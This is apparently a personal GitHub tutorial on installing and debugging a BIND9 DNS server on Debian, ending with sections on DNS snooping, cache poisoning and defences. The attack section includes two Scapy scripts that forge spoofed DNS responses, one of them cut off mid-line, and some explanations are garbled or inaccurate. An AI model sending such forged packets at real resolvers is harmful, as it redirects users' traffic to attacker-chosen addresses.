


# DNS
> - we will install our dns on Debian
>   - its a stable distro for networking
>   - its my proxmox-machine so i thought it would make sense not to outsource my dns and dhcp and i use the proxmox machine for my networking and virtualisation stuff anyway.
> - ***DO NOT EXPOSE PORT 53 UNLESS YOU KNOW WHAT YOU ARE DOING AND HAVE PROPPER `ACL` CONFIGURED!***
>   - this will probably flood your server with public DNS-request and might break it
>     - to avoid unnecessary traffic, we  set `recursion no;` in `/etc/bind/named.conf.options`
> - in our Example we use `dynamic  update` ***without configuring clients*** specifically since this is a private DNS
>     -  hence we set `allow-query { any; };` in the zones we configure in `/etc/bind/named.conf.local`
> - this Guide will also cover how to debug and test your DNS
> - last but least we will learn why DNS is a potential attack vector, how snooping works and what DNS-poisining is

---
## DNS Resolver

A **DNS resolver** is a crucial component in the domain name system. Its primary function is to **accept queries from clients** (such as your browser) and perform **recursive queries** to locate IP addresses. Here’s how it works:

1.  When you type a domain name (e.g., `example.com`) into your browser, the DNS resolver on your machine receives this request.
2.  The resolver then **contacts other DNS servers** to find the IP address associated with the domain name.
3.  It follows a chain of delegations, starting from the **root nameservers**, down to the **top-level domain (TLD) nameservers**, and finally to the authoritative nameservers for the specific domain.
4.  Once it reaches the authoritative nameserver, it retrieves the IP address and returns it to your browser.

## DNS Server

Now, let’s talk about **DNS servers** in general. The term “DNS server” is broader and encompasses various types of servers involved in the DNS system. Here are the key distinctions:

1.  **Authoritative Nameserver**: This type of DNS server holds complete data for one or more **zones** (domains). For example, the `.com` domain has authoritative nameservers that store information about all its subdomains.
2.  **Recursive Nameserver**: A recursive DNS server starts with no data and performs queries on behalf of clients. It follows delegations and CNAME records until it finds the answer for the client query. You might use a local recursive nameserver (on your machine or provided by your ISP) or a remote one like Google Public DNS or Cloudflare DNS.
## Records

 DNS records are essential for defining how domain names are translated into IP addresses. 
 
 Some common types of DNS records include:
  
| ***Record***  | ***Description*** |
|---------------|-------------------|
|    A Record | Maps a domain name to an IPv4 address. |
|   AAAA Record | Maps a domain name to an IPv6 address. |
|    CNAME Record | Alias one name to another. |
|    MX Record  | Specifies the mail server responsible for accepting email on behalf of a domain. |
|    TXT Record | Allows you to insert arbitrary text into the DNS record. |
|    PTR Record | Used in reverse DNS lookup to associate an IP address with a hostname. |

---

## Access Control Lists (ACLs)

Access Control Lists (ACLs) in DNS are used to control who can perform certain actions on your DNS server. They allow you to specify which IP addresses or networks are allowed or denied access to various operations such as dynamic updates, zone transfers, and queries.

An ACL is defined in the DNS server's configuration file and consists of a list of IP addresses or ranges, followed by an action (permit or deny). Here's an example of an ACL definition:
>```
>...
>acl local-lan {
>  localhost;
>  192.168.1.0/24;
>  192.168.122.0/24; # Netzwork for vmbr0
>  192.168.123.0/24; # additional Networks 
>};
>  allow-query { local-lan; };
>```
> In this example, only the IP addresses within the `192.168.1.0/24`,`192.168.122.0/24` and `192.168.123.0/24` ranges are permitted to perform queries against the DNS server. 

---
## Forward Zones
Forward zones map domain names to IP addresses. They are the primary mechanism by which DNS servers respond to queries asking for the IP address associated with a given domain name.

 The main goal of forward zones is to facilitate the translation of domain names into IP addresses, allowing users to connect to web servers, email servers, and other resources identified by domain names.

Configuration: Forward zones are configured in the DNS server's configuration files, typically located in /etc/bind/named.conf.local for BIND9 servers. Each forward zone requires a zone declaration that includes the domain name and the location of the zone file containing the DNS records for that domain.

***Example Configuration:***
>```
>zone "example.com" {
>    type master;
>    file "/etc/bind/db.example.com";
>};

---

## Reverse Zones in DNS Configurations

- Reverse zones in DNS configurations are used to map IP addresses back to domain names. This is particularly useful for reverse DNS lookups, where you know an IP address and want to find the associated domain name.

- To configure reverse zones, you would typically add a zone block in your DNS server configuration file (named.conf for BIND). Here's an example of how to define a reverse zone:
>```
>zone "122.in-addr.arpa" IN {
>    type master;
>    file "/etc/bind/db.122";
>};
>```

> This configuration tells the DNS server to manage the reverse zone for the subnet 122.0.0.0/24, mapping IP addresses within this range to domain names. The file directive points to the database file that contains the PTR records for this zone.
> PTR records in the reverse zone database (db.122) would then map IP addresses back to domain names, allowing reverse DNS lookups to succeed.

---


## Differences between Reverse and Forward Zones
While both forward and reverse zones play essential roles in DNS, they serve opposite functions:

    Forward Zones: Translate domain names into IP addresses.
    Reverse Zones: Map IP addresses back to domain names, facilitating reverse DNS lookups.

In essence, forward zones are about translating names to numbers, whereas reverse zones translate numbers back to names. Both types of zones are critical for the proper functioning of the DNS system, ensuring that users can efficiently navigate the internet and internal networks.

---


## Clients in DNS Zones
 Clients in DNS zones refer to devices or networks that initiate DNS queries to a DNS server. These queries seek information about domain names, and the DNS server responds based on its configured zone files.

 The treatment of these queries can vary depending on the source network, utilizing views to serve different responses to LAN and WAN clients. 

- The `allow-query` directive specifies which clients are permitted to send queries to the DNS server. 
> - Setting allow-query { any; }; means that the DNS server accepts queries from any client, regardless of their IP address or network location.
> -  This configuration is broad and permissive but might not be suitable for all environments, especially those requiring stricter access controls for security reasons.

---

***Alternative Configuration:*** Defining Specific Clients
- Instead of using `allow-query { any; };`, you could define ***specific clients*** that are allowed to query the DNS server.
> - This approach enhances security by limiting access to trusted clients. You can achieve this by specifying IP addresses, networks, or even creating named ACLs (Access Control Lists) that group certain clients together.

Here's an example of how to define specific clients using IP addresses:

>```acl internal { 192.168.1.0/24; 10.0.0.0/8; };
>options { allow-query { internal; }; allow-transfer { none; }; };
>```
> - In this configuration, only the IP addresses within the 192.168.1.0/24 and 10.0.0.0/8 ranges are permitted to perform queries against the DNS server.
> - This method provides a more controlled environment compared to allow-query { any; };.

---
## Zone Transfer
Zone transfer is an important mechanism to ensure that all DNS servers have the same data set. 
When changes are made to the zone files, they are synchronized via the zone transfer. 
> `AXFR` (Asynchronous Full Transfer Zone) is a method used for this purpose.



> -  When a client requests a zone transfer, the source DNS server queries the zone file, sends a response to the client
> -  the target DNS server checks permissions. If permissions are granted, the zone data is transferred; otherwise, the transfer is denied.
## Understanding DNS Query Output

When querying a DNS server for domain name resolution, the response contains several sections that provide detailed information about the queried domain. 

Here's a breakdown of these sections based on the example output you provided:


| **Section Title** | **Description**                                                                                     |
|-------------------|-----------------------------------------------------------------------------------------------------|
| **Question Section** | Specifies what information is being requested.                                                     |
| **Answer Section** | Provides the actual DNS records that match the query.                                              |
| **Authority Section** | Lists the authoritative nameservers for the queried domain.                                        |
| **Additional Section** | Contains information that might be needed to resolve the query.                                 |

---


## Preperation
- ***on the machine that runs the dns:***
  - get the ips of the NIC`s
```Bash
 # ip a
```
>```
>...
>2: enp1s0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast master vmbr0 state UP group default qlen 1000
>    link/ether 52:54:00:56:9e:57 brd ff:ff:ff:ff:ff:ff
>3: enp9s0: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
>    link/ether 74:d0:2b:9d:49:43 brd ff:ff:ff:ff:ff:ff
>4: vmbr0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
>    link/ether 52:54:00:56:9e:57 brd ff:ff:ff:ff:ff:ff
>    inet 192.168.122.7/24 scope global vmbr0
>       valid_lft forever preferred_lft forever
>    inet6 fe80::5054:ff:fe56:9e57/64 scope link 
>       valid_lft forever preferred_lft forever
>```
> in my case the ip of the DNS-machine is `192.168.122.7` since it's using the `vmbr0 Network Bridge`  for virtualisation

---

- ***on the host:***
  - check out the resolv.conf and add the ip of the nameserver that we will just create.
>```
>############################################################################################################
>#                                        /etc/resolv.conf 
>#############################################################################################################
> # Generated by NetworkManager
>search speedport.ip
>nameserver 192.168.122.7                   #    <----- THE IP OF OUR DNS
>nameserver 2a02:3032:317:1192::92
>nameserver 192.168.2.1
>nameserver 192.168.61.86
># NOTE: the libc resolver may not support more than 3 nameservers.
># The nameservers listed below may not be recognized.
>nameserver fe80::1%enp2s0
>```
> this file will be constantly get resetted by NetworkManager, so we will need to add our Ip again later, but i wanted to explain this before we start the actual DNS-installation 

---
 
  ## Install Bind9
  ```Bash
  #  sudo apt-get install bind9 bind9utils bind9-doc
  ```
  - enable it:
  
  ```Bash
# systemctl enable bind9
# sudo systemctl enable named
```
---

## configure your DNS

> in our case we want to resolve  `foreman.de` to the ip `192.168.122.20`
>  - the ip is the one of my vm that runs foreman (i need dns because of smartproxy and external dhcp) 

- edit the `named.conf.options` file
  
>```
>############################################################################################################
>#                                        /etc/bind/named.conf.options
>#############################################################################################################
>
>acl local-lan {
>  localhost;
>  192.168.1.0/24;
>  192.168.122.0/24; # Netzwork for vmbr0
>  192.168.123.0/24; # additional Networks 
>};
>options {
>  directory "/var/cache/bind";
>  forwarders {
>192.168.61.86;    # the DNS my phone uses
>192.168.2.1;      # the DNS of my NIC 
>  };
>  allow-query { local-lan; }; # Erlaubt Anfragen nur von den in local-lan definierten Netzwerken
>  dnssec-validation auto;
>  auth-nxdomain no;    // conform to RFC1035
>  listen-on-v6 { any; };
>  recursion no;  // we set that to no to avoid unnecessary traffic
>  querylog yes; // Enable for debugging
>  version "not available"; // Disable for security
>};
>```
> 
---

- edit `nano /etc/bind/named.conf.local`
>```
>############################################################################################################
>#                                        /etc/bind/named.conf.local
>#############################################################################################################
>
>//include "/etc/bind/zones.rfc1918";
>zone "foreman.de" IN {
>        type master;
>        file "/etc/bind/zones/foreman.de";
>         allow-query { any; };  
>#       allow-update { any; };
>};
>zone "0.116.10.in-addr.arpa" IN {
>        type master;
>        file "/etc/bind/zones/foreman.de.rev";
>         allow-query { any; };
> #       allow-update { any; };
>};
>```

---

- create configs for our forward and backward zone:
```Bash
 # cp /etc/bind/db.local /etc/bind/zones/foreman.de
 # cp /etc/bind/db.127 /etc/bind/zones/foreman.de.rev
```

--- 

- edit `/etc/bind/zones/foreman.de`:
>```
>############################################################################################################
>#                                        /etc/bind/zones/foreman.de
>#############################################################################################################                                                                                         
>;
>; BIND data file for local loopback interface
>;
>$TTL    604800
>@       IN      SOA     foreman.de. root.foreman.de. (
>                              2         ; Serial
>                         604800         ; Refresh
>                          86400         ; Retry
>                        2419200         ; Expire
>                         604800 )       ; Negative Cache TTL
>;
>@       IN      NS      bindserver.foreman.de.
>; A record for name server
>bindserver      IN      A       192.168.122.20
>@       IN      NS      localhost.
>@       IN      A       192.168.122.20
>@       IN      AAAA    ::1
>```


---

- edit `/etc/bind/zones/foreman.de.rev`

>```
>############################################################################################################
>#                                        /etc/bind/zones/foreman.de.rev
>#############################################################################################################                                                                                         
>;
>; BIND reverse data file for local loopback interface
>;
>$TTL    604800
>@       IN      SOA     foreman.de. root.foreman.de. (
>                              1         ; Serial
>                         604800         ; Refresh
>                          86400         ; Retry
>                        2419200         ; Expire
>                         604800 )       ; Negative Cache TTL
>;
>; Name server record
>@       IN      NS     bindserver.foreman.de.
>; A record for name server
>bindserver      IN      A      192.168.122.20
>20.122.168.192.in-addr.arpa. IN PTR foreman.de.
>@       IN      NS      localhost.
>1.0.0   IN      PTR     localhost.
>```

---

## Update Bind9

```Bash
# named-checkzone foreman.de /etc/bind/zones/foreman.de
# named-checkzone foreman.de /etc/bind/zones/foreman.de.rev
# named-checkconf /etc/bind/named.conf.options
# named-checkconf
# sudo systemctl restart bind9
```
---

## Test & Debug
- we have several options here:
> ***DNS-Host:***
> - journalctl, syslogs, cache
> 
> ***DNS-Client:***
> - wget, dig, telnet, tcdump

---

### DNS-Client debug

***wget:***

```Bash
#  wget foreman.de
```

> this doesnt show us which dns is currently used, but it show us the Domain that the DNS resolved for us 

>```
>--2024-06-07 16:12:23--  http://foreman.de/
>Auflösen des Hostnamens foreman.de (foreman.de)… ::1, 192.168.122.20
>Verbindungsaufbau zu foreman.de (foreman.de)|::1|:80 … fehlgeschlagen: Verbindungsaufbau abgelehnt.
>Verbindungsaufbau zu foreman.de (foreman.de)|192.168.122.20|:80 … verbunden.
>HTTP-Anforderung gesendet, auf Antwort wird gewartet … 301 Moved Permanently
>Platz: https://foreman.de/ [folgend]
>--2024-06-07 16:12:23--  https://foreman.de/
>Verbindungsaufbau zu foreman.de (foreman.de)|192.168.122.20|:443 … verbunden.
>FEHLER: Dem Zertifikat von »foreman.de« wird nicht vertraut.
>FEHLER: Das Zertifikat von »»foreman.de«« hat keinen bekannten Austeller.
>```

---

***dig:***
```Bash
 # dig foreman.de
```
> this also tells us which DNS resolved our IP
>```
>[ji@base Dokumente]$ dig foreman.de
>
>; <<>> DiG 9.16.23-RH <<>> foreman.de
>;; global options: +cmd
>;; Got answer:
>;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 39704
>;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
>;; WARNING: recursion requested but not available
>
>;; OPT PSEUDOSECTION:
>; EDNS: version: 0, flags:; udp: 1232
>; COOKIE: 42f88eb9501cc520010000006663162e7378e4c0f794bcaf (good)
>;; QUESTION SECTION:
>;foreman.de.			IN	A
>
>;; ANSWER SECTION:
>foreman.de.		604800	IN	A	192.168.122.20
>
>;; Query time: 0 msec
>;; SERVER: 192.168.122.7#53(192.168.122.7)
>;; WHEN: Fri Jun 07 16:16:14 CEST 2024
>;; MSG SIZE  rcvd: 83
>```
> so just figured out that our DNS is `192.168.122.7` and that he found our IP is using  `A`-Record

---

***dump the tcp-logs for port 53:***
```Bash
sudo tcpdump udp port 53 --interface virbr0 -vv
```
> - we use `virbr0` since its the network bridge the machine of our DNS-host requries, since its also running proxmox
> - is use my mobile phone here to access the internet, so the other DNS that's inside my resolv.conf will be ignored
> - a successfull query could look like this:
> 
>| **Output** | **Description** |
>|------------|------------------|
>| ```16:04:48.840074 IP (tos 0x0, ttl 64, id 23172, offset 0, flags [DF], proto UDP (17), length 56) my-proxmox.de.50724 > 192.168.122.7.domain: [bad udp cksum 0x758f -> 0x26fa!] 63196+ A? foreman.de. (28)``` | Query for A records of `foreman.de` with bad UDP checksum |
>| ```16:04:48.840088 IP (tos 0x0, ttl 64, id 23173, offset 0, flags [DF], proto UDP (17), length 56) my-proxmox.de.50724 > 192.168.122.7.domain: [bad udp cksum 0x758f -> 0xc8e3!] 21720+ AAAA? foreman.de. (28)``` | Repeated query for AAAA records of `foreman.de` with bad UDP checksum |
>| ```16:04:48.840507 IP (tos 0x0, ttl 64, id 31967, offset 0, flags [none], proto UDP (17), length 72) 192.168.122.7.domain > my-proxmox.de.50724: [bad udp cksum 0x759f -> 0x6d7f!] 63196*- q: A? foreman.de. 1/0/0 foreman.de. A 192.168.122.20 (44)``` | Response to A record query for `foreman.de` with bad UDP checksum; contains A address `192.168.122.20` |
>| ```16:04:48.840569 IP (tos 0x0, ttl 64, id 31968, offset 0, flags [none], proto UDP (17), length 84) 192.168.122.7.domain > my-proxmox.de.50724: [bad udp cksum 0x759f -> 0x6d7f!] 63196*- q: A? foreman.de. 1/0/0 foreman.de. A 192.168.122.20 (44)``` | Further response to A record query for `foreman.de` with bad UDP checksum; likely a repeated or additional response |

---

### DNS-HOST debug
***tail the logs of your nameserver:***
```Bash
journalctl -u named.service -f
```
> ***DNS-Request via `browser`:***
>| ***Output*** | ***Description*** |
>|--------------|-------------------|
>| ```Jun 07 16:37:49 my-proxmox named[413848]: client @0x751f6388a168 192.168.122.1#38768 (foreman.de): query: foreman.de IN A + (192.168.122.7)``` | Initial Request for `foreman.de` (A Record) - Successful |
>| ```Jun 07 16:37:50 my-proxmox named[413848]: client @0x751f6468bd68 192.168.122.1#58656 (www.google.com): query: www.google.com IN A + (192.168.122.7)``` | Subsequent Request for `www.google.com` (A Record) - Failed due to refusal |
>| ```Jun 07 16:37:50 my-proxmox named[413848]: client @0x751f6468cb68 192.168.122.1#58656 (www.google.com): query: www.google.com IN AAAA + (192.168.122.7)``` | Additional Request for `www.google.com` (AAAA Record) - Failed due to refusal |
>| ```Jun 07 16:37:51 my-proxmox named[413848]: client @0x751f6140b968 192.168.122.1#57363 (foreman.de): query: foreman.de IN A + (192.168.122.7)``` | Final Request for `foreman.de` (A Record) - Successful |
>| ```Jun 07 16:37:51 my-proxmox named[413848]: client @0x751f61408f68 192.168.122.1#57363 (foreman.de): query: foreman.de IN AAAA + (192.168.122.7)``` | Final Request for `foreman.de` (AAAA Record) - Successful |
> 
> ***DNS-Request via `dig`-command:***
>| ***Output*** | ***Description*** |
>|--------------|-------------------|
>| ```Jun 07 16:44:16 my-proxmox named[413848]: client @0x751f62288d68 192.168.122.1#46572 (foreman.de): query: foreman.de IN A +E(0)K (192.168.122.7)``` | Successful DNS Lookup for `foreman.de` using `dig` command |

---

***Dump the cache:***
 - bind stores its cache in the ram, but you can dump it using 
```Bash
rndc dumpdb > named_dump.db
```
- you can also flush it using rndc

---

## Attack Vectors
### Snooping
- we can get the ip's of the clients  that send DNS-requests to the server
  - this is because the dns stores/caches the ips of the clients for the reverse request to speed up the connection-process
```Bash
dig +norecurse @192.168.122.7 foreman.de
```
>```
>; <<>> DiG 9.16.23-RH <<>> +norecurse @192.168.122.7 foreman.de
>; (1 server found)
>;; global options: +cmd
>;; Got answer:
>;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 17547
>;; flags: qr aa; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 2
>
>;; OPT PSEUDOSECTION:
>; EDNS: version: 0, flags:; udp: 1232
>; COOKIE: 05a3b545adc9f83701000000666323381697775d93001fbd (good)
>;; QUESTION SECTION:
>;foreman.de.			IN	A
>
>;; ANSWER SECTION:
>foreman.de.		604800	IN	A	192.168.122.20
>
>;; AUTHORITY SECTION:
>foreman.de.		604800	IN	NS	bindserver.foreman.de.
>foreman.de.		604800	IN	NS	localhost.
>
>;; ADDITIONAL SECTION:
>bindserver.foreman.de.	604800	IN	A	192.168.122.20
>
>;; Query time: 1 msec
>;; SERVER: 192.168.122.7#53(192.168.122.7)
>;; WHEN: Fri Jun 07 17:11:52 CEST 2024
>;; MSG SIZE  rcvd: 147
 >```
> now we know that `localhost` made a DNS-request for `foreman.de`

---


> -   We construct a DNS query packet targeting `www.example.com`.
> -   We then create a DNS response packet that includes our spoofed source IP (`src_ip`) and the actual destination IP (`dst_ip`). The response packet is crafted to mimic a legitimate DNS response for `www.example.com`, directing it to an IP address (`1.3.3.7`) of the attacker's choice.
> -   Finally, we send the crafted DNS response packet towards the DNS server.

---

### DNS Cache-Poisining
 DNS cache poisoning, is a malicious activity where an attacker injects false DNS records into a DNS server's cache. 
> - This manipulation tricks the DNS server into returning incorrect IP addresses for a domain name, redirecting users to malicious websites instead of legitimate ones.

- Attackers often target DNS servers that are not properly secured or configured, leading to successful redirection of traffic.
- there are 2 main tatics used:
> 
>     - a ***denial of service attack*** such as DDOS can generate latency, or kill the spoofed server in order to take it over 
>     -  

---

***Sending a fake record using spoofed ip***
- attack an additional nameserver in order to respond to the targeted nameserver with a correct ip, but also with a ***fake record***
   -  a ***denial of service attack*** such as DDOS can be used to kill the additional nameserver to spoof it
   - server got taken over by any other hack and gets controlled directly
```Python
from scapy.all import *

# Define the destination IP (the victim's DNS server)
dst_ip = "8.8.8.8"  # Google's DNS server as an example

# Define the source IP (the attacker's IP, spoofed)
src_ip = "192.168.1.100"

# Create a DNS query packet for test.example.com
query_packet_test = IP(dst=dst_ip)/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="test.example.com"))

# Create a DNS response packet for test.example.com with a spoofed IP address
response_packet_test = IP(src=src_ip, dst=dst_ip)/UDP(sport=12345, dport=53)/DNS(id=query_packet_test[DNS].id, aa=True, qr=True, rcode=0, an=DNSRR(rrname="test.example.com", ttl=10, rdata="correct.ip.for.test.example.com"))

# Create a DNS query packet for de.wikipedia.org
query_packet_wiki = IP(dst=dst_ip)/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="de.wikipedia.org"))

# Create a DNS response packet for de.wikipedia.org with a spoofed IP address
response_packet_wiki = IP(src=src_ip, dst=dst_ip)/UDP(sport=12345, dport=53)/DNS(id=query_packet_wiki[DNS].id, aa=True, qr=True, rcode=0, an=DNSRR(rrname="de.wikipedia.org", ttl=10, rdata="192.0.2.1"))

# Send the DNS response packets
send(response_packet_test)
send(response_packet_wiki)

print("Sent DNS response packets.")

```

---

***Sending a fake query by using IP-Spoofing***
- we will attack the victim directly instead of using an additional nameserver
 - a ***denial of service attack*** such as DDOS could be used to kill the corresponding DNS 
- the spoofed DNS sends a `fake query` directly to the victim 
-  the attcker will either:
   - sniff the web to get the Transaction-Number
   - use random Transaction-Number in brute-force-manier
 



```python
from scapy.all import send, IP, UDP, DNS, DNSQR, DNSRR
import random

# Target domain to be spoofed
target_domain = "foreman.de"

# IP address of the machine running the python code
attacker_ip = "192.168.1.100"  # Modify this according to your environment

# IP address of the victim client (DNS resolver)
victim_ip = "192.168.122.7"  # Modify this according to your environment

# DNS port
dns_port = 53

# Generate a random transaction ID
transaction_id = random.randint(0, 65535)

# Generate a fake DNS query
def generate_fake_dns_query(transaction_id):
    query = DNSQR(qname=target_domain, id=transaction_id)
    return query

# Spoof the DNS request and response
def spoof_dns_request_and_answer(transaction_id):
    # Create the DNS request with the specified transaction ID
    query_packet = IP(src=attacker_ip, dst=victim_ip) / UDP(sport=random.randint(1024, 65535), dport=dns_port) / DNS(id=transaction_id, rd=1, qd=DNSQR(qname=target_domain))
    
    # Create the fake DNS response
    answer = IP(dst=victim_ip, src=attacker_ip) / UDP(dport=dns_port, sport=random.randint(1024, 65535)) / DNS(id=transaction_id, aa=True, qr=True, an=DNSRR(name=target_domain, type='A', ttl=10, rdata='1.3.3.7'))
    
    # Send the fake DNS response
    send(answer)

# Start the DNS spoofing attack
spoof_dns_request_and_answer(transaction_id)

print(f"DNS spoofing
```

---

###  Possible Szenario
> Escaping a Web Application Container and Attacking a Private DNS Server

***Background***

-   A web application is running within a container in a Kubernetes (K8s) cluster.
-   The attacker has compromised the web application container and aims to escalate their privileges.

**Attack Steps**

1.  ***Container Escape:***
    
    -   The attacker identifies a vulnerability (e.g., misconfigured security settings, outdated software) within the web application container.
    -   They exploit this vulnerability to escape the container.
2.  ***Network Access:***
    
    -   Once outside the container, the attacker gains access to the underlying host system.
    -   They can now interact with the network interfaces (NICs) on the host.
3.  **Discovering DNS Servers:**
    
    -   The attacker scans the network to identify DNS servers.
    -   They may find a private DNS server used for internal services, such as dashboards or monitoring tools.
4.  **DNS Server Exploitation:**
    
    -   The attacker targets the private DNS server:
        -   If the DNS server is misconfigured (e.g., allows zone transfers), they can retrieve DNS records.
        -   They can manipulate DNS records (e.g., redirecting traffic to malicious IP addresses).
        -   If the DNS server has known vulnerabilities (e.g., outdated software), they can exploit them.
5.  **Impact of DNS Server Compromise:**
    
    -   By compromising the DNS server, the attacker can:
        -   Redirect legitimate users to malicious sites.
        -   Intercept sensitive data (e.g., login credentials) by modifying DNS responses.
        -   Disrupt internal services by altering DNS records.


---
## Protection

***Preventing DNS Cache Poisoning and DNS Spoofing***
- ***Use of TSIG Authentication:*** Transaction SIGnature (TSIG) authentication adds a layer of security to DNS transactions by ensuring that DNS messages are authenticated and integrity-checked. This prevents attackers from injecting false DNS records into a DNS server's cache.
 -  ***Implement DNSSEC:*** DNS Security Extensions (DNSSEC) signs DNS data with digital signatures, ensuring that DNS responses cannot be tampered with. DNSSEC verifies the authenticity of DNS data, preventing attackers from successfully poisoning DNS caches.
 - ***Limit Zone Transfers:*** Limiting zone transfer requests can prevent attackers from obtaining copies of a DNS zone file, which they could then use to poison DNS caches.
- ***Regularly Monitor and Audit DNS Servers:*** Regular monitoring and auditing of DNS servers can help identify suspicious activities, such as unexpected changes to DNS records or unusual patterns of DNS queries.
- ***Update DNS Software:*** Keeping DNS software up-to-date ensures that any known vulnerabilities are patched, reducing the risk of DNS cache poisoning attacks.

---

***Practical Example of DNS Cache Poisoning Prevention***
Let's consider a scenario where you're setting up a DNS server using BIND9. To mitigate the risk of DNS cache poisoning, you should implement TSIG authentication for DNS transactions. Here's how you can configure TSIG authentication in BIND9:

- Generate a Key: First, generate a shared secret key for TSIG authentication. 
- This can be done using the dnssec-keygen tool:

```Bash
# dnssec-keygen -a HMAC-SHA512 -b 128 -n HOST mykey
```

> This command generates a pair of keys (`mykey.+165+000001.private`, `mykey.+165+000001.key`) and a key file (`Kmykey.+165+000001.key`) that you'll use for TSIG authentication.

   ***Configure TSIG Authentication in BIND9:***
   >  Edit your named.conf file to include the generated key and configure TSIG authentication for your zone transfers and dynamic updates.
    
```
key "mykey" {
    algorithm hmac-sha512;
    secret "your_generated_key_here";
};

zone "example.com" {
    type master;
    file "/etc/bind/db.example.com";
    allow-update { key "mykey"; };
};
```
Replace "your_generated_key_here" with the content of the .key file generated by dnssec-keygen.

By implementing TSIG authentication and regularly updating your DNS software, you can significantly reduce the risk of DNS cache poisoning and DNS spoofing attacks. 
Remember, the effectiveness of these measures depends on the overall security posture of your DNS infrastructure, including secure network configurations and regular monitoring.

---

***Enhanced Security and Performance Strategies for Web Applications in Kubernetes***


**1. Container Security:**
- Regularly update container images to patch vulnerabilities.
- Use security policies (e.g., PodSecurityPolicies) to restrict container capabilities.
- Implement automated scanning tools for detecting vulnerabilities in container images.

**2. Network Segmentation:**
- Isolate containers from critical network components.
- Limit communication between containers and host systems.
- Utilize micro-segmentation technologies for fine-grained control over network traffic.

**3. Monitoring and Auditing:**
- Monitor network traffic for anomalies using advanced analytics tools.
- Regularly audit container configurations and network settings.
- Set up alerting mechanisms for unusual activity that could indicate a security breach.

**4. Rate Limiting:**
- Implement rate limiting on API endpoints to protect against DDoS attacks and ensure fair usage.
- Configure ingress controllers or service meshes like Istio or Linkerd to enforce rate limits based on request rates and sizes.

**5. Data Pipeline Management with Apache Kafka:**
- Deploy Apache Kafka as a StatefulSet for high availability and scalability in processing large volumes of real-time data.
- Ensure data encryption both in transit and at rest within Kafka clusters.
- Implement client authentication and authorization mechanisms to secure access to Kafka topics.

**6. Additional Considerations:**
- Regularly review and update security policies and configurations to address new threats and vulnerabilities.
- Conduct periodic penetration testing and red team exercises to identify and mitigate potential weaknesses.
- Invest in training and awareness programs for development and operations teams to promote a culture of security.


---

